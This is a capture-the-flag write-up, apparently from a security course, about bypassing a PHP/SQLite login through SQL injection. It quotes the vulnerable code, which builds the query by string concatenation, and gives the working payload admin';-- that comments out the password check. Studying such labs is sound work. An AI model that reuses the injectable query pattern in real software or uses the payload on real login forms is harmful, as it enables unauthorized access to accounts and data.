 # CTF 8 - SQL Injection

In this CTF, we were presented to a Website that gives the php file to the user everytime he tries to enter the website (This source code is in the appendix of this document). The website looks like this:

<div align="center">
  <img src="images/CTF8/sql_website.png" alt="Form2" width="50%">
</div>




The most important part of the document is this:

```php
<?php
    if (!empty($_POST)) {

        require_once 'config.php';

        $username = $_POST['username'];
        $password = $_POST['password'];
               
        $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
        if ($result = $conn->query($query)) {
                                  
            while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                $_SESSION['username'] = $data['username'];
           
                echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                include "/flag.txt";
                echo "</code>";

            }
        } else {            
            // falhou o login
            echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
        }
    }
?>
```

## Questions

### Q1. Which SQL Query is executed everytime a user tries to login?

Considering that the user is not an attacker, a normal query to a normal input from a user would look like this:

```sql
SELECT username FROM user WHERE username = '<username>' AND password = '<password>'
```

### Q2. Which inputs you can manipulate to encroach the query? Which Special Characters you use and why?

For this exploit, the most important keywords that we might have in mind are:

* `;`: This character is important because it represents the end of an sql statement

* `--`: These two characters together are the declaration of the beggining of a comment in SQL.

### Q3. Qual query SQL é efetivamente executada com a tua tentativa de login maliciosa? Porque é que essa query te permite fazer login?

The actual query that is done is this one:

```sql
SELECT username FROM user WHERE username = 'admin'; -- AND password = '".$password."'";
```

Which is semanticaly equivelant to this:

```sql
SELECT username FROM user WHERE username = 'admin';
```

which do not require the password to enter into the system.

```
admin';--
```

```
<anything except nothing>
```
